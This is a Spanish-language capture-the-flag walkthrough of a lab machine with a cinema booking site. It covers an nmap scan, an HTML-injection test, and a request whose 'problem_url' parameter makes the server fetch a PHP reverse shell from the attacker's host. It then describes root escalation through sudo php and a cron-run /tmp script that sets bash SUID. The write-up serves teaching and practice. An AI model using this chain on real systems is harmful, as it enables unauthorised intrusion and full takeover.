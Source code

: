 Escaneo de puertos con Nmap:
```
nmap -p- -sC -sV -sS --min-rate 5000 -n -vvv -Pn 172.17.0.2 -oN escaneo
```

![](../../../Images/Pasted%20image%2020250205131104.png)

Observo lo que corre en el único puerto abierto:

![](../../../Images/Pasted%20image%2020250205131227.png)

Dando click en todas las películas la página no me redirecciona a ningún lado, a excepción de la película El tiempo que tenemos esa si me deja ver mas datos:

![](../../../Images/Pasted%20image%2020250205131555.png)

Selecciono un asiento para "hacer la reserva" y doy click en el botón azul y me aparece el recuadro:

![](../../../Images/Pasted%20image%2020250205131625.png)

Si coloco en  el campo de nombre:
```
<h1>Canary</h1>
```
Me aparece:

![](../../../Images/Pasted%20image%2020250205131704.png)

![](../../../Images/Pasted%20image%2020250205131713.png)

Y me doy cuenta que la página es vulnerable a un XSS o Cross-site scripting

Procedo a abrir BurpSuite e interceptar la petición para ver como se procesa por detrás:

![](../../../Images/Pasted%20image%2020250205132729.png)

Me doy cuenta que la información que se envía se almacena en un "problem url"

Entonces me crearé una Reverse Shell

![](../../../Images/Pasted%20image%2020250205132849.png)

Me levanto un servidor con python:

![](../../../Images/Pasted%20image%2020250205132910.png)

Y recibiré la conexión junto con el shell.php desde la página web
```
[http://cinema.dl/reservation.php?problem_url=http://192.168.1.35/shell.php](http://cinema.dl/reservation.php?problem_url=http://192.168.1.35/shell.php)
```

![](../../../Images/Pasted%20image%2020250205133037.png)

![](../../../Images/Pasted%20image%2020250205133137.png)

Y listo, quedó subida mi RevShell, ahora tendré que buscar donde se subió

Investigando un poco la web, me doy cuenta que existe un directorio llamado "/andrewgarfield" así como uno de los personajes de la película y en este directorio está mi archivo .php

![](../../../Images/Pasted%20image%2020250205133256.png)

Procedo a ponerme a la escucha con Netcat y dar click en mi archivo

![](../../../Images/Pasted%20image%2020250205133658.png)

Recibo la conexión y ahora estoy dentro de la máquina

Tratamiento de la TTY:

![](../../../Images/Pasted%20image%2020250205133734.png)

![](../../../Images/Pasted%20image%2020250205133752.png)

## ESCALADA DE PRIVILEGIOS

En el directorio /opt me encuentro con un .sh, lo leo:

![](../../../Images/Pasted%20image%2020250205135426.png)

Y dice que al momento que sea el usuario boss me sacará de la sesión debido a este script,
por lo que puedo intuir que puede haber algun Crontab.
Si voy  a /var/spool/cron y listo veo lo siguiente:

![](../../../Images/Pasted%20image%2020250205135625.png)

Que el usuario boss puede efectivamente leer este archivo, así que procedo a mirar como puedo escalar a él:

Ejecuto sudo -l para ver el binario que puedo usar

![](../../../Images/Pasted%20image%2020250205134310.png)

Puedo ser boss con el binario Php

Miro en GTFOBins como puedo escalar con este binario:

![](../../../Images/Pasted%20image%2020250205134242.png)

Lo ejecuto:

![](../../../Images/Pasted%20image%2020250205134451.png)

Y ahora soy el usuario boss

Voy rapidamente al directorio /var/spool/cron y leo el archivo que contiene adentro:

![](../../../Images/Pasted%20image%2020250205135857.png)

Tengo un root.sh el cuál me dice que se ejecutan 2 scripts cada cierto tiempo y hace mención a 2 archivos, el primero ya lo leí anteriormente así que buscaré el segundo en /tmp:

![](../../../Images/Pasted%20image%2020250205135939.png)

Observo que no hay ningún archivo creado

Por ende crearé mi propio script.sh para que al momento que se ejecuté me dé permisos en la bash y pueda escalar:

![](../../../Images/Pasted%20image%2020250205140204.png)

Le doy permisos de ejecución y espero un momento:

![](../../../Images/Pasted%20image%2020250205140233.png)

Escribo bash -p

![](../../../Images/Pasted%20image%2020250205140337.png)

Y listo, ya soy ROOT

Flag de user:

![](../../../Images/Pasted%20image%2020250205140408.png)

Flag de root:

![](../../../Images/Pasted%20image%2020250205140425.png)
